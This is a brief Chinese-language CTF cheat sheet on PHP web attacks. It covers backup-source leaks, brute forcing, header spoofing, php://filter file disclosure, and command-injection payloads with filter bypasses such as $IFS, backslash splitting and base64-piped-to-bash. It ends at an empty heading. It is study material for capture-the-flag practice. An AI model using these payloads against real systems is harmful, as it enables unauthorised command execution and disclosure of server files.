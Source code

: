 # PHP

* ## 基础

Robots.txt 查看robots协议规定的网站信息（对网站本身并无实质性影响）

备份源码泄露：

```
www.zip
www.tar.gz
index.php.bak
```

弱口令爆破：burp抓包后更改爆破点，加载字典进行爆破

X-Forward-For / Referer 伪造 --&gt; X-Forward-For 为最初发起请求的客户端的ip地址，Referer 为当前请求页面的来源页面地址

php弱类型对比（==），不涉及数据转换 --&gt; 0e123==0e456 （典型：md5碰撞）

php伪协议：

```
php://input  //通过post方法将原数据远程上传至服务器
php://filter //通过一些过滤将原数据进行一些操作后下载
?file=php://filter/read=convert.base64-encode/resource=flag.php
        //将flag.php内部源码进行base64编码后给file赋值
```

* ### 命令注入

HTML注入：

```
127.0.0.1;var_dump(scandir('/'));
127.0.0.1;file_get_contents(filename);
```

* #### Bypass

空格绕过 --&gt; 采用&lt;&gt;、/\*\*/、采用特殊变量$IFS

利用反斜杠

```
cat /flag ==> c\at /fl\ag
```

base64编码和解码

```
echo Y2F0IC9mbGFn|base64 -d|bash
```

过滤斜杠 --&gt;利用环境变量进行字符串截取

利用单引号绕过

拼接：

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

编码：

```
/?ip=1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
```

内联：

    /?ip=127.0.0.1;cat$IFS$9`ls`

* #### 



